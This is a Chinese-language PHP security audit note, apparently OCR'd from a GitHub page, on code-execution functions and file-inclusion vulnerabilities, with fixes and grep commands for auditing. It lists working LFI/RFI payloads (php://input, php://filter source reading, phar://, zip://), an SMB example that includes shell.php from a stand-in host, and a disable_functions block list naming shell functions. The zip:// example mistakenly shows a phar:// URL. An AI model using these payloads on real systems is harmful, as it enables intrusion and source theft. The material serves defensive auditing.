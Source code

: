 设计上禁止使用"能够代码执行的函数"。

#### 函数

* 代码执行函数
  * eval()
  * assert()
  * [preg_replace()](https://php.net/preg_replace) php7.0不再支持\e参数
  * $

#### 修复与防御

* [1] 设计上禁止使用"能够代码执行的函数"
* [2] 禁用PHP函数 - 使用php配置文件php.ini实现禁用某些危险的PHP函数 如`disable_functions =system,passthru,shell_exec,exec,popen`


### 实例3 PHP-文件包含漏洞

#### 设计

文件包含函数禁止使用"变量"作为参数值。

#### 函数

* 文件包含函数 (使用文件包含函数，被包含的文件无论是什么后缀，都会被当作php文件进行解析)
  * include()
  * include_once()
  * require()
  * require_once()

#### 测试

* 文件包含(File Inclusion)漏洞的分类
  * LFI(Local File Inclusion) 本地文件包含:如果文件包含函数中的参数值"文件路径"可控，通常存在"本地文件包含"漏洞
  * RFI(Remote File Inclusion)远程文件包含
    * 前置利用条件:在php.ini中必须开启2个选项才可能进行远程文件包含 `allow_url_fopen = On` (默认为On); `allow_url_include = On`(php>=5.2则默认Off)
    * 例外:以上2个选项都是Off时，可以使用smb协议，尝试使example.com包含在Windows机器(10.0.0.1)上的远程文件：先创建一个向所有人开放的共享，里面放shell.php文件，尝试包含这个文件`http://example.com/index.php?page=\\10.0.0.1\share\shell.php`
* 文件包含(File Inclusion)漏洞的利用方式
  * php伪协议 - `php://input` 前置利用条件为php.ini中`allow_url_include = On`  利用:POST url`xx.php?file=php://input`  POST body:`<? phpinfo();?>`
  * php伪协议 - `php://filter` 无前置利用条件  利用:`xx.php?file=php://filter/read=convert.base64-encode/resource=index.php` 或 `index.php?file=php://filter/convert.base64-encode/resource=index.php`
  * php伪协议 - `phar://` 前置利用条件为php版本>=5.3.0  利用:将内容为`<?php phpinfo(); ?>`的文件phpinfo.txt压缩为test.zip 访问绝对路径`xx.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt`或相对路径`xx.php?file=phar://test.zip/phpinfo.txt`（test.zip和xx.php在同一目录下）
  * php伪协议 - `zip://` 前置利用条件为php版本>=5.3.0  利用:将内容为`<?php phpinfo(); ?>`的文件phpinfo.txt压缩为test.zip 只能访问绝对路径`xx.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip%23phpinfo.txt` 注意需使用`%23`
  * ... 更多利用方式(LFI/RFI导致代码执行、LFI to RCE) 参考[PayloadsAllTheThings/File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)


从项目代码中查找关键字
```
# 代码执行函数 - 查找关键字 eval assert preg_replace 等
find /xxcms -type f -name "*.php" | xargs grep -n 'eval'

# 文件包含函数 - 查找关键字 include require require_once
find /xxcms -type f -name "*.php" | xargs grep -n 'include \$'
```
